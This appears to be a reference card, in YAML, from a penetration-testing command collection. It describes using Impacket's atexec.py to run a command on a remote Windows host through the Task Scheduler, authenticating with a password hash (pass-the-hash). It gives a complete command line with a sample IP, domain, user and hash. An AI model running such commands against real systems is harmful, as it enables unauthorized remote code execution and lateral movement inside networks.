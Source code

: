 ```yaml
---
title: |
  Use the Task Scheduler service to execute a command
description: |
  Impacket's atexec.py uses the Task Scheduler service on the remote Windows host to execute the given command. It will create a windows task with a random name, trigger the task, and then delete it. The following command executes `whoami` on the remote Windows host, authenticating with the hash of user `test`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Hash: aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76

  	Command Executed: whoami
command: |
  python3 atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 test.local/test@10.10.10.1 whoami
items:
  - Hash
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py
  - https://u0041.co/blog/post/1
---
```

